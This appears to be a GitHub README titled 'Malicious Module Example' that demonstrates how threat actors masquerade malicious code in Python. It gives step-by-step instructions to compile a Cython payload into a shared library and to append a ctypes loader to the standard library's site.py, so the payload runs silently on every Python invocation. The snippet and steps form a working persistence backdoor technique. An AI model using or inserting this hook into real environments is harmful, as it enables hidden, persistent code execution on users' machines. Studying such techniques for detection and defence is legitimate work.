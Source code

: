 # Malicious Module Example

This module is used to demonstrate common tricks by threat actor to masquerade malicious code.

Cython is used to convert python code into shared library (unix `.so` or windows `.pyd`).

## Malmod 3: Autoload (Site)

A module is loaded automatically at runtime for each python invokation.

In this example we will modify the `site` module and adding our backdoor script to load the module at runtime.

## Preparation

Ensure cython is installed for compiling and creating shared library. We only need to do this on development environment and no need to install cython on target machine.

```sh
python3 -m pip install cython
```

## Usage

To build the module, use the following command. This will generate a shared library, ex: `payload.cpython-311-x86_64-linux-gnu.so`.

```sh
python3 setup.py build_ext --inplace
```

Rename the file into simplest form like `payload.so` (or `payload.pyd`). Then copy it to any path you want, i.e. `/tmp/payload.so`. 

Locate the lib directory of python. The directory should contain `site.py`.

```sh
python3 -m site
```

Edit the `site.py` file and add following code at the end of the file.

```python
import ctypes
import sys
import os
            
if sys.platform == "win32":
    libname = "payload.pyd"
else:
    libname = "payload.so"
    
path = os.path.join("PAYLOAD_PATH", libname)
lib  = ctypes.CDLL(path)
        
lib.execute()
```

replace `PAYLOAD_PATH` to the path of the module.

Run the python.